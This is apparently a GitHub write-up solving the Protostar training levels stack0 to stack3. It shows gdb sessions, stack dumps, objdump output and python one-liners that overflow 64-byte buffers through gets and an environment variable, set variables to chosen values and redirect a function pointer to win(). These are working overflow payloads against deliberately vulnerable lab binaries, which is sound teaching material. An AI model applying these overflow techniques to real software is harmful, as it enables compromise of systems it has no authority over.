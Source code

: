 # Writeups for protostar

## stack0

- First level introduces the concept of stack overflow, and how stack overflow can modify local variables.
- Look at the source code for stack0, and see that this program when executed, waits for our input and stores it into a buffer that is 64 bytes long.
- However it uses `gets` function which is really __insecure__.
- Giving the input larger than 64 bytes, modifies the `modified` variable:

```sh
$ ./stack0
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
you have changed the 'modified' variable
```

### Low level stuff

- Let's run this program in `gdb`:

```asm
(gdb) disas main
Dump of assembler code for function main:
0x080483f4 <main+0>:    push   ebp
0x080483f5 <main+1>:    mov    ebp,esp
0x080483f7 <main+3>:    and    esp,0xfffffff0
0x080483fa <main+6>:    sub    esp,0x60
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048405 <main+17>:   lea    eax,[esp+0x1c]
0x08048409 <main+21>:   mov    DWORD PTR [esp],eax
0x0804840c <main+24>:   call   0x804830c <gets@plt>
0x08048411 <main+29>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048415 <main+33>:   test   eax,eax
0x08048417 <main+35>:   je     0x8048427 <main+51>
0x08048419 <main+37>:   mov    DWORD PTR [esp],0x8048500
0x08048420 <main+44>:   call   0x804832c <puts@plt>
0x08048425 <main+49>:   jmp    0x8048433 <main+63>
0x08048427 <main+51>:   mov    DWORD PTR [esp],0x8048529
0x0804842e <main+58>:   call   0x804832c <puts@plt>
0x08048433 <main+63>:   leave
0x08048434 <main+64>:   ret
End of assembler dump.
```

- Here's the assembly instruction that sets `modified` variable to 0:

```asm
0x080483fd <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
```

- Set a breakpoint on gets:

```sh
(gdb) b *0x0804840c
Breakpoint 1 at 0x804840c: file stack0/stack0.c, line 11.
```

- Let's define a __hook__ in `gdb` which will execute some commands whenever it hits breakpoint:

```sh
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>i r
>x/24wx $esp
>x/2i $eip
>end
```

- This prints registers, the stack and next two instructions on every breakpoint.

```sh
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
eax            0x0      0
ecx            0xbffffc7c       -1073742724
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc60       0xbffffc60
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x8048415        0x8048415 <main+33>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffffc60:     0xbffffc7c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffffc70:     0xb7fd7ff4      0xb7ec6165      0xbffffc88      0x41414141
0xbffffc80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffc90:     0x41414141      0x41414141      0x41414141      0x08048400
0xbffffca0:     0xb7fd8304      0xb7fd7ff4      0x08048450      0xbffffcc8
0xbffffcb0:     0xb7ec6365      0xb7ff1040      0x0804845b      0x00000000
---Type <return> to continue, or q <return> to quit---
0x8048415 <main+33>:    test   eax,eax
0x8048417 <main+35>:    je     0x8048427 <main+51>

Breakpoint 2, 0x08048415 in main (argc=1, argv=0xbffffd74) at stack0/stack0.c:13
13      in stack0/stack0.c
```

- Notice i've placed a second breakpoint on `0x08048415`.
- Also notice that our stack gets filled with some `0x41`, but, `modified` still stays 0:

```sh
(gdb) x/xw $esp+0x5c
0xbffffcbc:     0x00000000
```

- You can actually see `modified` in the previous gdb output on the stack, it's the last entry.
- Count it manually, and you will see that you need to supply at least 64 long input to just reach `modified` variable in memory.
- After those 64 characters even if you supply one more character, you overwrite the `modified` variable.
- So let's input a pattern of characters which we can recognize (`0x44` is ascii 'D')

```sh
(gdb) c
Continuing.
AAAAAAAABBBBCCCCDDDDAAAABBBBCCCCDDDDAAAABBBBCCCCDDDDAAAABBBBCCCCDDDD
eax            0x44444444       1145324612
ecx            0xbffffc7c       -1073742724
edx            0xb7fd9334       -1208118476
ebx            0xb7fd7ff4       -1208123404
esp            0xbffffc60       0xbffffc60
ebp            0xbffffcc8       0xbffffcc8
esi            0x0      0
edi            0x0      0
eip            0x8048415        0x8048415 <main+33>
eflags         0x200246 [ PF ZF IF ID ]
cs             0x73     115
ss             0x7b     123
ds             0x7b     123
es             0x7b     123
fs             0x0      0
gs             0x33     51
0xbffffc60:     0xbffffc7c      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffffc70:     0xb7fd7ff4      0xb7ec6165      0xbffffc88      0x41414141
0xbffffc80:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffffc90:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffffca0:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffffcb0:     0x41414141      0x42424242      0x43434343      0x44444444
---Type <return> to continue, or q <return> to quit---
0x8048415 <main+33>:    test   eax,eax
0x8048417 <main+35>:    je     0x8048427 <main+51>

Breakpoint 3, 0x08048415 in main (argc=1, argv=0xbffffd74) at stack0/stack0.c:13
13      in stack0/stack0.c
(gdb) x/s $esp+0x5c
0xbffffcbc:      "DDDD"
(gdb) c
Continuing.
you have changed the 'modified' variable
```

## stack1

- From the task description:
> This level looks at the concept of modifying variables to specific values in the program, and how the variables are laid out in memory.

- This should also be easy, let's try inputting 64 A's and DCBA respecting the little endian.
- Generate the input with python:

```py
$ python3 -c 'print("\x41" * 64 + "\x44\x43\x42\x41")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA
```

- Feed it the input:

```sh
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADCBA
Try again, you got 0x41424344
```

- That's cool, but we need to set `modified` variable to `0x61626364`.

```py
$ python3 -c 'print("\x41" * 64 + "\x64\x63\x62\x61")'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
```

- And...

```sh
$ ./stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAdcba
you have correctly got the variable to the right value
```

## stack2

- This challenge introduces concepts of using environment variable to cause a stack overflow.
- `getenv` is not the most secure function in C.

- Solution is next:

```sh
$ export GREENIE="$(python -c 'print("A"*64+"\x0a\x0d\x0a\x0d")')"
$ echo $GREENIE
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
$ ./stack2
you have correctly modified the variable
```


## stack3

- The goal is to overwrite `fp` pointer to point to `win` function.
- I will do that by overflowing the buffer that is 64 bytes long.
- First I need to know what the address of `win` function is.
- As you can see, I've overwrote the `fp` pointer with `ABCD`:

```sh
$ ./stack3
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABCD
calling function pointer, jumping to 0x44434241
Segmentation fault
```

- It tries to jump to `ABCD` but because it doesn't exist, it crashes with SEGFAULT.
- Running a simple `objdump` and I can see address of `win` function:

```sh
$ objdump -Mintel -d stack3

stack3:     file format elf32-i386

-- snip -- 
08048424 <win>:
 8048424:       55                      push   ebp
 8048425:       89 e5                   mov    ebp,esp
 8048427:       83 ec 18                sub    esp,0x18
 804842a:       c7 04 24 40 85 04 08    mov    DWORD PTR [esp],0x8048540
 8048431:       e8 2a ff ff ff          call   8048360 <puts@plt>
 8048436:       c9                      leave
 8048437:       c3                      ret
```

- Let's overflow `fp` with `\x24\x84\x04\x08`.
- This is how I've done it:

```sh
$ python -c 'print("\x41" * 64 + "\x24\x84\x04\x08")' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

- Because `buffer` is 64 bytes long, each subsequent character will spill into next variable in the stack.
- That variable happens to be `fp`, which I need to change to point to `win` function.
